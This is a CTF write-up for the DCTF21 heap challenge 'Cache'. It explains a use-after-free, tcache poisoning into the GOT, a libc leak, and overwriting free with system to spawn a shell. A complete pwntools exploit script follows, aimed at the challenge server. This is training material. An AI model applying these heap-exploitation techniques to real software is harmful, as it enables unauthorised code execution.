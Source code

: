 # Cache
Can you catch me?

Attach:\
[vuln](https://api.cyberedu.ro/v1/contest/dctf21/challenge/99c2bc30-89b5-11ec-b32b-6d1377d288a1/download/1993)\
[libc.so.6](https://api.cyberedu.ro/v1/contest/dctf21/challenge/99c2bc30-89b5-11ec-b32b-6d1377d288a1/download/1994)

## Overview
This challenge have a popular structure of a heap challenge with some options which interact to heap:
```
MENU
1: Make new admin
2: Make new user
3: Print admin info
4: Edit Student Name
5: Print Student Name
6: Delete admin
7: Delete user

Choice: 
```
1. Make new admin:\
Create a heap chunk have 0x20 bytes as size. 
```c
ADMIN_DATA = (code **)malloc(0x10);
ADMIN_DATA[1] = admin_info;
*ADMIN_DATA = getFlag;
```
2. Make new user:\
Create a heap chunk have 0x20 bytes to store name from input (`USER_DATA`)
3. Print admin info:\
Call `admin_info()` function via `ADMIN_DATA[1]`
4. Edit Student name:\
Edit the string in `USER_DATA` pointer
5. Print Student name:\
Using `printf()` with `USER_DATA`
6. Delete admin
Free `ADMIN_DATA` pointer
7. Delete user
Free `USER_DATA` pointer

## Bugs
The bug here is UAF at `USER_DATA` because after freeing, `USER_DATA` still are old value and not be set to 0.

## Exploit
We have checksec's result:
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
RUNPATH:  b'./'
```
Because we have `getFlag()` function pointer in `ADMIN_DATA`. First my idea is calling that function.\
Firstly, I malloced a chunk with `USER_DATA` then freed it. After that, I malloced a chunk with `ADMIN_DATA`.
Because 2 structs have same size, `USER_DATA` pointed to `ADMIN_DATA`. I override `admin_info` address with `getFlag` address and triggered it with **Print admin info** feature. But I got this fake result from server :)\
Move to RCE expection. I leaked libc address via GOT table by UAF bug:
- Malloc 2 structs and free it (the `ADMIN_DATA` first)
- Edit next chunk in *tcache* point to GOT
- Leak GOT with **Print user info** feature
- Override GOT with *system* (I chose *free* function because I can control input for it fully)
- Trigger and exec `system("/bin/sh")`

## Code
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./vuln_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.27.so")

context.binary = exe
gdb_script='''
init-gef\n
b main\n
b *0x00400a9e\n
b *0x00400a85\n
b *0x0040095e\n
b *0x00400a2f\n
'''

get_flag = exe.symbols["getFlag"]
setbuf = exe.got["setbuf"]
printf = exe.got["printf"]
free = exe.got["free"]
log.info("Free got: " + str(hex(free)))

def conn():
    print(str(args.LOCAL) + " " + str(args.DEBUG))
    if args.LOCAL:
        r = process([exe.path])
    elif args.DB:
        r = process([exe.path])
        gdb.attach(r,gdbscript = gdb_script)
    elif args.REMOTE:
        r = remote("35.246.134.224",30532)

    return r

def new_admin(r):
    r.sendafter(b"Choice: ",b"1\n")
def new_user(r,name):
    r.sendafter(b"Choice: ",b"2\n")
    r.sendafter(b"What is your name: ",name)
def info_admin(r):
    r.sendafter(b"Choice: ",b"3\n")
    return r.recvuntil(b"MENU")
def edit_user(r,name):
    r.sendafter(b"Choice: ",b"4\n")
    r.sendafter(b"What is your name: ",name)
def info_user(r):
    r.sendafter(b"Choice: ",b"5\n")
    r.recvuntil(b"Students name is ")
    return r.recvuntil(b"\n")

def del_admin(r):
    r.sendafter(b"Choice: ",b"6\n")
def del_user(r):
    r.sendafter(b"Choice: ",b"7\n")

def main():
    r = conn()

    # Leak address heap chunk
    new_admin(r)
    new_user(r,b"123")
    del_admin(r)
    del_user(r)
    res = info_user(r)[:-1]
    res = res.ljust(8,b"\x00")
    res = u64(res)
    
    admin_chunk = res
    user_chunk = admin_chunk + 0x20

    log.info("Chunk: " + str(hex(admin_chunk)))
    
    log.info("LEAK DONE")

    # malloc user_chunk -> GOT:
    log.info("Edit Tcache chunk to GOT")
    edit_user(r,p64(free-0x8))
    log.info("Malloc user_chunk to GOT")
    new_admin(r)
    new_user(r,b"A"*8)

    # Leak libc:
    log.info("Get setbuf libc addr")
    res = info_user(r)[8:-1]
    res = res.ljust(8,b"\x00")
    res = u64(res)
    base_libc = res - libc.symbols["free"] 
    libc.address = base_libc
    system = libc.symbols["system"]
    log.info("System libc: " + str(hex(system)))
     
    # Edit for creating system("/bin/sh")
    log.info("Edit user_chunk with: | \"/bin/sh\" | system |")
    edit_user(r, b"/bin/sh\x00"+p64(system))
    
    # Trigger shell
    del_user(r)


    r.interactive()


if __name__ == "__main__":
    main()
```
